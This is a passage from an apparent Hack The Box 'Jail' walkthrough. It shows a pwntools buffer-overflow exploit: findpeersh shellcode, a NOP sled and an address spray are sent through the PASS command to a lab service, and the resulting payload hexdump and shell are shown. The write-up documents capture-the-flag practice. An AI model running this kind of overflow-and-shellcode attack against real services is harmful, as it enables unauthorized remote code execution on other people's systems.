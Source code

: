 Next, we need to connect to the remote service:
{% highlight python %}
HOST = '10.10.10.34'
PORT = 7411
r = remote(HOST, PORT)
{% endhighlight %}

One of the many awesome things about pwntools is that it can do a lot of the annoying shellcode work for us. It has a 
module called <a href="http://docs.pwntools.com/en/stable/shellcraft.html">shellcraft</a> which has architecture specific
shellcode for common needs. In this case, we want to find an open socket and open a shell on it, and then jump into
that shellcode (address of buffer plus an offset into our <a href="https://en.wikipedia.org/wiki/NOP_slide">NOP-sled</a>):
{% highlight python %}
buf = asm(shellcraft.findpeersh())
sizeof_buffer = 240  # buffer is 256 - 16 (sizeof(userpass)) = 240
nop   = asm(shellcraft.nop())
pad   = nop
addr = 0xffffd610 + 0x30
{% endhighlight %}

Finally, we calculate the final payload, and send it:
{% highlight python %}
address_buf = p32(addr) * 8  # address spray
buf = buf.rjust(sizeof_buffer - len(address_buf), pad)
buf = address_buf + buf

log.info("Exploit buf:\n%s" % hexdump(buf, 8))

r.send('DEBUG\n')
sleep(0.1)
r.send('USER admin\n')
sleep(0.1)
r.send('PASS ' + buf + '\x00')
r.interactive()
{% endhighlight %}
{% highlight shell %}
[root:~/Documents/htb/jail]# python2 win.py
[+] Opening connection to 10.10.10.34 on port 7411: Done
[*] Exploit buf:
    00000000  40 d6 ff ff  40 d6 ff ff  │@···│@···│
    *
    00000020  90 90 90 90  90 90 90 90  │····│····│
    *
    00000098  90 90 90 90  6a ff 6a 07  │····│j·j·│
    000000a0  89 e5 5b 5e  6a 66 58 46  │··[^│jfXF│
    000000a8  8d 4c 24 e0  6a 04 60 cd  │·L$·│j·`·│
    000000b0  80 85 c0 61  5a 75 ed 89  │···a│Zu··│
    000000b8  f3 6a 03 59  49 6a 3f 58  │·j·Y│Ij?X│
    000000c0  cd 80 75 f8  6a 68 68 2f  │··u·│jhh/│
    000000c8  2f 2f 73 68  2f 62 69 6e   │//sh│/bin│
    000000d0  89 e3 68 01  01 01 01 81  │··h·│····│
    000000d8  34 24 72 69  01 01 31 c9  │4$ri│··1·│
    000000e0  51 6a 04 59  01 e1 51 89  │Qj·Y│··Q·│
    000000e8  e1 31 d2 6a  0b 58 cd 80  │·1·j│·X··│
    000000f0
[*] Switching to interactive mode
OK Ready. Send USER command.
OK DEBUG mode on.
OK Send PASS command.
Debug: userpass buffer @ 0xffffd610
$ whoami
nobody